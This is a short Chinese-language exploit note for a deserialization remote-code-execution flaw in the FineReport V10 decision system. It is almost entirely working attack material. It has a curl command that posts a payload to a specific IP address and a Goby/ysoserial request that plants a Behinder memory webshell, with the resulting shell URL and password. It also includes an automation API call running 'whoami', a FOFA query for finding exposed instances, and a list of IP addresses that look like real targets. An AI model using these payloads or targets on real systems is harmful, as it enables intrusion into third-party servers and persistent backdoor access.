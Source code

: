 # 帆软 数据决策系统FineReport V10 webrootdecisionremotedesignchannel反序列化 

    ```
echo "xxxx" | base64 -d | curl -X POST -d @- http://1.58.73.61/webroot/decision/remote/design/channel
```

```
POST /api/v1/ysoserial HTTP/1.1
Host: gobygo.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 152

gadget=CommonsBeanutils1183NOCC¶meters=EX-MS-TFMSFromThread-bx&encoding=base64&url=%2FGqExyxgcDfcc&password=goby&referer=https%3A%2F%2Fgobygo.net%2F
```

WebShell URL: http://1.58.73.61/webroot/mXkgBodBCjKN
Password: goby
Webshell tool: Behinder v3.0
Webshell type: jsp
Referer: https://gobygo.net/

## goby自动化

```
POST /api/v1/debugExp HTTP/1.1
Content-Type: application/json;charset=UTF-8
Authorization: Basic dXNlcjpwYXNz
host: 82.156.29.211:8365
Connection: close
Content-Length: 358

{"hostinfo":"http://1.58.73.61","vulfile":"FineReport_V10_Deserialization_RCE_Vulnerability.go","expparams":{"AttackType":"ysoserial","URL":"/3334","PassWord":"goby","Referer":"https://gobygo.net/","serializedData":"","Gadget":"CommonsBeanutils1183NOCC","Category":"Memory Shell","Memory Shell Category":"TFMSFromThread","Web Shell":"bx","command":"whoami"}}
```

## fofa

```
app="帆软-数据决策系统"
```

| URL  | http://1.58.73.61http://120.78.127.52http://39.107.158.100 |
| ---- | ---------------------------------------------------------- |
